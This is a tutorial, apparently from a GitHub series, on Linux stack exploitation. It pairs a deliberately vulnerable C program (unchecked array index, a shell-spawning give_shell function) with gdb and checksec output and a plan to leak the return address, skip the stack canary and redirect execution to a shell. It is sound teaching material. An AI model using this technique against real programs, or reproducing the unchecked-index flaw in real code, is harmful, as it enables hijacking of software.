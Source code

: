 # Introduction to Linux pwn - Overriding the return address

[Last time](https://github.com/yo-yo-yo-jbo/linux_pwn_intro) we described stack-smashing by overriding a variable, but this time we're going a bit more serious and overriding the return address.  
For that, I will introduce with another nice way of defeating stack cookies on the way. Let's jump right into it!

```c
#include <stdio.h>
#include <unistd.h>

#define LEN (10)

static
void
give_shell(void)
{
        printf("woot!\n");
        execve("/bin/sh", NULL, NULL);
}

static
void
storage()
{
        int arr[LEN] = { 0 };
        char menu_choice = 0;
        int index_choice = 0;

        setbuf(stdout, NULL);
        printf("Welcome to my awesome storage program!\n");

        // Handling menu forever
        for (;;)
        {
                // Getting the menu choice
                printf("Enter [R] to read, [W] to write or [Q] to quit: ");
                scanf(" %c", &menu_choice);

                // Handling quits
                if (menu_choice == 'Q')
                {
                        printf("Quitting.\n");
                        break;
                }

                // Handling wrong choices
                if ((menu_choice != 'R') && (menu_choice != 'W'))
                {
                        printf("Wrong choice.\n");
                        continue;
                }

                // Getting the index with a bounds check
                printf("Enter the array index: ");
                scanf("%d", &index_choice);

                // Handling reads
                if (menu_choice == 'R')
                {
                        printf("Value: %d\n", arr[index_choice]);
                        continue;
                }

                // Handling writes
                printf("Enter value: ");
                scanf("%d", arr+index_choice);
        }
}

int main()
{
        storage();
        return 0;
}
```

Well, let's analyze it!
- We have a "storage system" which is really just an array of 10 integers, where we can read and write freely.
- The index is never validated, which is very problematic - we can give either negative values or incides that are out-of-bounds!

This kind of condition is amazing for exploitation since we have two "primitives":
1. `read-what-where` - we can read from arbitrary addresses.
2. `write-what-where` - we can write arbitrary values to arbitrary addresses.

In our case the addresses are relative to the stack, but that's not a huge concern, as we will shortly see.
These strong primitives will help us take control of the program, as our ultimate goal is invoking the `give_shell` function.

## Exploitation by overriding the return address
Let us examine the security mitigations:

```shell
$ checksec ./chall
[*] '/home/jbo/pwn_2/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can write arbitrary values to addresses relative to the `arr` variable (in the stack) - what should we do?  
Normally, a modern exploit would have to deal with certain mitigations:
- `Stack cookies` - we could use our read primitive to read the stack cookie (it will be in indices `10` and `11` since it's a 64-bit value, so it's spread over two `int` values) - but do we really need to? Stack cookies are great when it comes to protecting linear stack buffer overflows, but in our case we decide on the index freely, so we can just "skip over" the cookie!
- `NX (Non-eXecutable)` - that means the stack is non-executable, which is not a huge deal for us, as we plan on calling `give_shell` directly. Normally, `NX` on its own is pretty weak, unless it comes with `ASLR`.
- `PIE (Position-Independent Executable)` - means that the executable is position independent, so it could be loaded to any address. `PIE` is basically `ASLR` for the executable itself, as in the past, the executable image was position-dependent (since the process has the entire address space) and loadable modules (`so` files) were `PIC (Position-Independent-Code`). These days `PIE` is the default option. Generally, `PIE` is a part of `ASLR` ([Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization)). `ALSR` is an in-depth security feature that makes loadable modules and the main executable load at different addresses at different executions. Its level of granularity and implementation depends much on the operating system as well as the compilation flags, and in our case, it means that we do not know the absolute address of `give_shell` ahead of time.

To bypass ASLR, we could take two approaches, depending on the primitives we have:
1. Defeating ASLR with a `leak`. Usually `ASLR` leaks are another type of vulnerability, but in our case it's easy - we can read the return address from the stack using our awesome read primitive.
2. Doing a partial write. This approach is sometimes very tailored to specific situations - in our case we can write in a 4-byte granularity so we won't benefit a lot from it, but we will try to demonstrate that too.

First though - let us find the return address dynamically!

```
gdb ./chall
(gdb) b *stroage
Breakpoint 1 at 0x121c
(gdb) r
Breakpoint 1, 0x000055555555521c in storage ()
(gdb) x/gx $rsp
0x7fffffffe348: 0x00005555555553c6
(gdb) u 0x00005555555553c6
Function "0x00005555555553c6" not defined.
(gdb) x/3i 0x00005555555553c6
   0x5555555553c6 <main+18>:    mov    eax,0x0
   0x5555555553cb <main+23>:    pop    rbp
   0x5555555553cc <main+24>:    ret
(gdb) bt
#0  0x000055555555521c in storage ()
#1  0x00005555555553c6 in main ()
```

As you can see, when we enter the `storage` function, the return address is pushed on the stack and can be read from `rsp` - in my run it's `0x00005555555553c6` but due to `ASLR` it might have different values in different runs. We clearly can disassemble a few instructions from that value to see that it's coming from `main`. Another way I show that is by running the `bt` (backtrace) command that clearly shows the return address to `main`. So, if we split `0x00005555555553c6` to two numbers I'd be expecting to see `1431655366` (which is `0x555553c6`) and `21845` (which is `0x5555`). We could either conclude statically or play around and conclude this value lives in indices `14` and `15`:

```
Enter [R] to read, [W] to write or [Q] to quit: R
Enter the array index: 14
Value: 1431655366
Enter [R] to read, [W] to write or [Q] to quit: R
Enter the array index: 15
Value: 21845
```

That's awesome, since reading the return value lets us conclude the position of all code in the main module - `main` as well as `give_shell`!
Let's examine:

```
(gdb) info functions give_shell
All functions matching regular expression "give_shell":

Non-debugging symbols:
0x00005555555551e9  give_shell
```

So, we know the distance between the return address (`0x00005555555553c6`) and `give_shell` (`0x00005555555551e9`) - just take the return address and substract `0x1dd`.  
So, our strategy is simple:
1. Read indices `14` and `15` to condlude the return address.
2. Substract `0x1dd` from it.
3. Write to indices `14` and `15`.
4. Trigger (by typing `Q`').
